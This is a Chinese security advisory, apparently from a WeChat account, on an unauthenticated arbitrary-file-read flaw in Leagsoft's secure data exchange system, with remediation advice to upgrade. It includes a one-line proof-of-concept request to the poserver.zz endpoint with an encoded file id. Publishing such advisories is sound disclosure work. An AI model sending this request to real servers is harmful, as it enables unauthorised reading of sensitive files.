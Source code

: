 #  漏洞预警 | 联软安全数据交换系统任意文件读取漏洞   
浅安  浅安安全   2024-05-18 08:00  
  
**0x00 漏洞编号**  
- # 暂无  
  
**0x01 危险等级**  
- 高危  
  
**0x02 漏洞概述**  
  
联软安全数据交换系统是联软科技发明的，融合网络隔离、网盘和DLP技术于一体的专业产品，它同时支持多网交换，查杀毒、审计审批、文档追踪和水印功能，是解决用户网络隔离、网间及网内数据传输、交换、共享/分享、存储的理想安全设备，具有开创性意义。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/7stTqD182SWA27o97G4gEuv1V27DowOJHlFNcRMourdhwCyvdFlhYXRObk8Gwn3kyzr1ia0VMXQwziavp4jZR78Q/640?wx_fmt=png&from=appmsg "")  
  
**0x03 漏洞详情**  
###   
###   
  
**漏洞类型：**  
任意文件读取  
  
**影响：**  
获取敏感信息  
  
****  
  
**简述：**  
联软安全数据交换系统存在任意文件读取漏洞，未授权的攻击者可以通过该漏洞读取服务器上任意文件，从而获取服务器敏感信息。  
###   
  
**0x04 影响版本**  
- 联软安全数据交换系统  
  
**0x05****POC**  
  
```
{URL}/UniExServices/poserver.zz?pgop=opendiskdoc&id=KmcgY3MtK3IpLSRfOXE9YmpkL2orbBdrKztnJCltInIrbDhyP24rOzhjPHI=
```  
  
  
**仅供安全研究与学习之用，若将工具做其他用途，由使用者承担全部法律及连带责任，作者及发布****者**  
**不承担任何法律及连带责任。**  
  
**0x06****修复建议**  
  
**目前官方已发布漏洞修复版本，建议用户升级到安全版本****：**  
  
https://www.leagsoft.com/  
  
  
  
